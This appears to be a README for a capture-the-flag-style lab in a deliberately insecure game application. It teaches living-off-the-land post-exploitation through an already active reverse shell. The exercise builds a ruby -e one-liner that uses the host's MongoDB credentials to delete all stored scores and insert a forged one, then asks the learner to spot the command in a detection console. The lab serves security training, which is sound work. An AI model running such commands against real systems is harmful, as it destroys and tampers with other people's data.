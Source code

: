 # 🔥 Vulnerable Labs: Updating High Scores!
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll learn how to construct ruby code to update high scores in the Mongo Database.

In situations where there are constraints on the ability to install additional tools (such as applicaton whitelisting) attackers 
pivot to Living Off The Land (LOTL) techniques. In this case you'll execute your own ruby code to update the MongoDB with a new high score.

This could extend to other situations, like interacting with other non-public resources that are accessible from the compromised host 
e.g., on-premises resources over a VPN, Direct Connect, or Express Route. 



### 🎯 Your Mission

1. Ensure your reverse shell is still active. You can re-run the reverse shell commands from [2-Reverse-Shell.md](2-Reverse-Shell.md) if needed.
2. On your laptop, open a text editor / notepad and open the file [webserver.rb](../web/webserver.rb).
3. Copy from line 3:
```ruby 
require 'mongo'; 
```
4. Copy from line 25:
```ruby 
client = Mongo::Client.new(ENV['MONGODB_CONN']);
```
5. Copy from line 65:
```ruby
scores_collection = db[:player_scores];
```
6. Append the following (change the name if you like):
```ruby
scores_collection.insert_one({\"player\":\"Alice\",\"score\":1000});
```
7. Prepend the start of the command with:
```ruby
ruby -e "
```
8. Append the following to the end of the command:
```ruby
"
```
9. Ensure your final command looks like:
```ruby
ruby -e "require 'mongo'; client = Mongo::Client.new(ENV['MONGODB_CONN']); db = client.use('game_db'); scores_collection = db[:player_scores]; scores_collection.delete_many({});  scores_collection.insert_one({\"player\":\"Alice\",\"score\":1000}); "
```

10. Check the reverse shell is still active and run the command:
```bash
ruby -e "require 'mongo'; client = Mongo::Client.new(ENV['MONGODB_CONN']); db = client.use('game_db'); scores_collection = db[:player_scores]; scores_collection.delete_many({});  scores_collection.insert_one({\"player\":\"Alice\",\"score\":1000}); "
```
11. A successful execution will return a result similar to:
```bash
<insert_one({\"player\":\"Alice\",\"score\":1000}) 
```
12. Browse to the webserver_IP and check your high score. 

Congratulations, you've completed this challenge. Can you now find the command you executed in Wiz? How long did it take to appear in the console?

### 💥 Hints & Tips

- We need to put a semicolon ; after each command. The semicolon is the equivalent to a linebreak when compiled and executed by the ruby interpreter. 